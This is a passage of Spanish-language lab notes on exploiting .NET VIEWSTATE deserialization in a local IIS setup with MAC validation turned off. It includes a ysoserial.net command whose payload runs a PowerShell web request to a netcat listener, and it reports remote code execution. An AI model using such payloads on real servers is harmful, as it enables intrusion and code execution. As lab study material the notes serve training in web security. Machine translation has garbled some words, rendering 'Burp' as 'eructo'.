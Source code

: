 * Si configuró el servidor correctamente, reinicie la PC y vaya a http://127.0.0.1
* open burp para observar el tráfico HTTP

En el directorio wwwroot, crearemos 3 archivos:

```
- hello.aspx (the frontend logic)
- hello.aspx.cs (backend)
- web.config (the IIS standard config file)
```

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/29.png)

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/30.png)

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/31.png)

El resultado es un área de texto, al hacer clic en el botón se muestra el texto que escribiste

* El archivo web.config indica al servidor web que no requiera la validación MAC del parámetro \_\_VIEWSTATE
* Esto nos permite manipular el parámetro y el servidor intentará deserializarlo de todos modos

#### Prueba de burpsuite <a href="#test-burp" id="test-burp"></a>

Ve a la página, haz clic en el botón con algo de texto y captúralo en ERUCTO

* Envíe la solicitud a **Repeater** y navegue hasta la pestaña **ViewState** en Burp
* ¡Eructar muestra información de que MAC no está habilitado!

Generemos una carga útil usando **ysoserial.net** y la coloquemos en el parámetro viewstate. La carga útil realizará una solicitud HTTP simple, ya que este es el enfoque adecuado antes de probar cargas útiles RCE más específicas

```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://127.0.0.1:9000/abcdabcdabcd"
```

Podemos ver que el agente de escucha netcat recibió una solicitud de Windows Powershell:

```
nc -lvnp 9000
```

La respuesta del servidor contiene el código de error 500; Sin embargo, se ejecuta powershell. Usando la herramienta Process Hacker podemos confirmar que, efectivamente, IIS generó el proceso de PowerShell

> Hemos logrado RCE a través de la deserialización de .NET VIEWSTATE

**2ª prueba - Se modificó el archivo .cs**

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/32.png)

ahora podemos ver en BURP que el parámetro VIEWSTATE ya no está presente en las solicitudes del sitio web
